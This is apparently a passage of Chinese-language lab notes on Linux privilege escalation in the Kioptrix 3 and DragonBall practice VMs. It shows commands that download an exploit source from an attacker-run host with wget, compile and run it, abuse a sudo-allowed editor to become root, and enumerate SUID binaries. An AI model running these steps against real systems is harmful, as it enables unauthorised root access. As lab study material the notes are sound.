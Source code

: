 ![1710314242982](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1710314242982.png)

所以我们发现  tmp  文件夹具有写入权限

所以我们切换到tmp文件夹再试一次

```bash
cd tmp
wget http://192.168.1.6:8080/9542.c

会发现我们下载成功
编译运行
gcc 9542.c
./a.out
```

![1710314318381](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1710314318381.png)

#### kioptrix3vm

```
ssh登录进去，然后就提权

sudo -l


```

![1710330987882](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1710330987882.png)

```
sudo /usr/local/bin/ht
```

![1710331055114](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1710331055114.png)

![1710331075767](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1710331075767.png)

![1710331353951](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1710331353951.png)

看见3个ALL，执行命令 sudo su - root

DRAGON ball

```
find / -perm -4000 -type f 2>/dev/null
通过上述命令，攻击者可以枚举出目标系统上所有的可执行文件，这里可以看到/home/raj/script/shell具有SUID权限。

SUID权限是Linux系统中的一种特殊权限，具体表现为文件拥有者的执行权限“x”被替换为“s”。这种权限允许用户在执行文件时临时获得文件拥有者的身份和权限。只有二进制程序文件才可以设定SUID权限，其他类型的文件设置此权限没有意义。
```

这篇文章讲的很清楚。

[内网提权：suid+劫持环境变量提权_linux环境变量劫持提权-CSDN博客](https://blog.csdn.net/ON_Zero/article/details/130544124?ops_request_misc=%7B%22request%5Fid%22%3A%22171091832316800185871083%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fall.%22%7D&request_id=171091832316800185871083&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-1-130544124-null-null.142^v99^pc_search_result_base1&utm_term=内网提权 路径劫持&spm=1018.2226.3001.4187)